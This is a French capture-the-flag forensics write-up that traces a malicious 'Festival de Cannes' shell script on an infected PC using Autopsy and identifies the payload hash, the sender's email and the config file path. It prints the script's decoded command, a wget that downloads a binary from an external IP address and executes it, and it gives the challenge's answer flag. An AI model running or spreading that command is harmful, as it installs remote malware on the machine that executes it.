

# Writeup

Dans ce challenge, on nous fournit une copie du filesystem du PC infecté que l'on peut ouvrir avec Autopsy :


Il est indiqué que le groupe d'attaquants a utilisé le Festival de Cannes pour compromettre l'entreprise, en cherchant dans les dossiers, on trouve un script Shell `tirage_aux_sorts.sh` dans le fichier de téléchargement de l'utilisateur **cesar** qui parle du Festival.

Nous pouvons extraire pour analyse plus approfondi :


En ouvrant ce fichier dans Visual Studio Code, on se rend compte qu'il fait 1000 lignes, bizarre pour un script qui n'est censé en faire qu'une trentaine ^^ :





En effet ce script est malveillant, voici la commande décodée qu'il exécute :

```
wget -q http://57.128.85.25:50098/_ -O /tmp/._ | bash && chmod +x /tmp/._ && /tmp/._
```

On inspecte donc le dossier /tmp pour voir si le fichier `._` est présent :


L’exécutable est présent ainsi que par déduction son fichier de config, `config.bin`

On récupère le SHA-256 du malware :

```
[Jun 30, 2025 - 03:08:20 (CEST)] exegol-Shutlock tmp # sha256sum ._
66640c14f898c78a99757ab4460c635476dfeb9b3b65e8a57fb29202eefb9423  ._
[Jun 30, 2025 - 03:11:11 (CEST)] exegol-Shutlock tmp #
```

Il ne nous manque plus qu'à trouver l'email de l'attaquant, celui qui lui a envoyé le fichier `tirage_aux_sorts.sh`.

Grâce à Autopsy, un outil gratuit et formidable, on trouve l'origine de celui ci :


Ce fichier provient d'un spam de `star_wars_official@proton.me`

**Flag format :**

`SHLK{bc5945feb8bd26203ebfafea5ce1878bb2e32cb8fb50ab7ae395cfb1e1aaaef1:mail@domain.tld:/home/test/.dossier/fichier.xyz}`

**Flag**

`SHLK{66640c14f898c78a99757ab4460c635476dfeb9b3b65e8a57fb29202eefb9423:star_wars_official@proton.me:/tmp/config.bin}`